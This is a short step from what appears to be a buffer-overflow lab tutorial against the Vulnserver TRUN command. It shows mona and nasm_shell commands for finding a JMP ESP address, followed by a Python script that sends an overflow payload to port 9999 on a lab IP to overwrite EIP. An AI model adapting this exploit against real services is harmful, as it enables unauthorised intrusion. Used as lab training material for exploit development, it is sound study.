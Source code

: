6-Finding the Right Module

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Search NASM for “JMP ESP” (minus the quotes). (\xff\xe4)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona modules
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona find -s "\xff\xe4" -m module.ext
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#!/usr/bin/python
import sys, socket

#EIP->JMP ESP = "625011AF" -- Must be inserted backwards for "little indian"

eipown = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + eipown))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
